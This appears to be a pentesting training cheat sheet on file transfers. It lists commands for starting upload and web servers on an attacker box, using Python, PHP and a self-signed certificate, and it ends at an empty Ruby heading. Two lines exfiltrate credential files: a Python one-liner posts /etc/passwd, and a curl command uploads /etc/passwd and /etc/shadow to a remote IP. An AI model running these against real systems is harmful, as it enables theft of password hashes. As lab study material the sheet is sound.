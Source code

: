 # File Transfers

## Uploading

### Python3

***

#### Starting the Python uploadserver Module

* `python3 -m uploadserver`

#### Uploading a File Using a Python One-liner

* `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`

#### Pwnbox - Start Web Server

* `sudo python3 -m pip install --user uploadserver`

#### Pwnbox - Create a Self-Signed Certificate

* `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`

#### Pwnbox - Start Web Server

* `mkdir https && cd https`
* `sudo python3 -m uploadserver 443 --server-certificate /root/server.pem`

#### Linux - Upload Multiple Files

* `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

### Alternative Web File Transfer Method

***

#### Linux - Creating a Web Server with Python3

* `python3 -m http.server`

#### Linux - Creating a Web Server with Python2.7

* `python2.7 -m SimpleHTTPServer`

#### Linux - Creating a Web Server with PHP

* `php -S 0.0.0.0:8000`

#### Linux - Creating a Web Server with Ruby
